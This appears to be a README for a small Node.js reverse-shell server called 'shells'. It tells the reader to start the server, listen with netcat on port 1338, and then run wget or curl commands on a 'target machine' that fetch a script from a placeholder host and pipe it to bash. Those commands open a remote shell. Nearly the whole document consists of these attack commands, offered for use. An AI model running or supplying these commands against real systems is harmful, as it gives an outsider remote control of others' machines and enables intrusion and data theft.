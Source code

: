 # shells
shells, based on [reverse-shell](https://github.com/lukechilds/reverse-shell).

# run
run this
```
node index.js
```
you can change the port in `config/default.json`.

# give me a shell
Listen with netcat:
```
nc -lvp 1338
```

run this on the target machine:
```
wget -qO- http://mi-ip-host:port/127.0.0.1:1338 | bash

curl http://mi-ip-host:port/127.0.0.1:1338 | bash
```
